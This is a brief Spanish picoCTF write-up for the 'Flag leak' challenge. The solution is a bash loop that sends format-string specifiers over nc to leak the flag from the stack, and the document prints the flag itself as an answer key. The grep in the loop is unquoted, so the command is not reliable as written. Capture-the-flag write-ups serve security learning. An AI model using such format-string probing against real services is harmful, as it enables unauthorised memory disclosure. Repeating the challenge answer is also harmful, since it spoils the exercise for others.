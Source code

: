 # Flag leak
## Descripcipción
Additional details will be available after launching your challenge instance.

Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/92/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/92/vuln.c). And connect with it using:`nc saturn.picoctf.net 49316`
## Pistas
- NONE
## Solucion
```
┌──(kali㉿kali)-[~/Documents/binary/flack]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 49316 |grep -Ei (pico|ctf) ;done

CTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}

```
## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}
## Notas adicionales
## Referencias
https://www.youtube.com/watch?v=FrnpBR1yEAY
